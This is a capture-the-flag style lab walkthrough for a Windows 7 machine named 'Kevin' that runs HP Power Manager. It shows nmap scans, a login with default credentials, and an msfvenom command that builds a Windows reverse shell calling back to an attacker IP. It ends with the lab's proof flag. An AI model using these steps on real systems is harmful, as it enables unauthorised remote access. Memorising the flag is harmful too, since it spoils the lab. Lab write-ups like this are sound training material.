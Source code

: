 # Win - Kevin

---

### Host

```bash
192.168.212.45
```

### Scan

```bash
> nmap -sV -T4 192.168.212.45
> nmap -sCV -A -Pn -O -p- 192.168.212.45 -oN tcpnmap.md
> sudo nmap -sU -Pn 192.168.212.45 --top-ports=100 --reason -oN udpnmap.md

80/tcp    open  http          GoAhead WebServer
| http-title: HP Power Manager
|_Requested resource was http://192.168.212.45/index.asp
|_http-server-header: GoAhead-Webs
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2025-02-01T18:02:43+00:00
|_ssl-date: 2025-02-01T18:02:51+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=kevin
| Not valid before: 2025-01-31T17:54:11
|_Not valid after:  2025-08-02T17:54:11
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49159/tcp open  msrpc         Microsoft Windows RPC

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-02-01T10:02:43-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-02-01T18:02:43
|_  start_date: 2025-02-01T17:54:56
|_nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:86:67:66 (VMware)
|_clock-skew: mean: 1h35m59s, deviation: 3h34m39s, median: 0s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

PORT     STATE         SERVICE     REASON
137/udp  open          netbios-ns  udp-response ttl 125
138/udp  open|filtered netbios-dgm no-response
500/udp  open|filtered isakmp      no-response
4500/udp open|filtered nat-t-ike   no-response
```

---

## Walkthrough

- Port 80 running HTTP, go to `182.168.212.45` and find a login page. Try default `admin:admin` and we are in.

![image.png](Win%20-%20Kevin%2018d553bebf0f80b4a7cdd22b52403bdb/image.png)

![image.png](Win%20-%20Kevin%2018d553bebf0f80b4a7cdd22b52403bdb/image%201.png)

![image.png](Win%20-%20Kevin%2018d553bebf0f80b4a7cdd22b52403bdb/image%202.png)

- Search “HP Power Manager 4.2 exploit” and we found https://www.exploit-db.com/exploits/10099 and https://www.tenable.com/plugins/nessus/44109
- It indicates

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.170 LPORT=6767 -f python -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -e x86/alpha_mixed
```

![image.png](Win%20-%20Kevin%2018d553bebf0f80b4a7cdd22b52403bdb/image%203.png)

![image.png](Win%20-%20Kevin%2018d553bebf0f80b4a7cdd22b52403bdb/image%204.png)

### FLAG

```bash
- proof.txt : 08c85a98e8c79f03661b2b7c1f45b4b5
```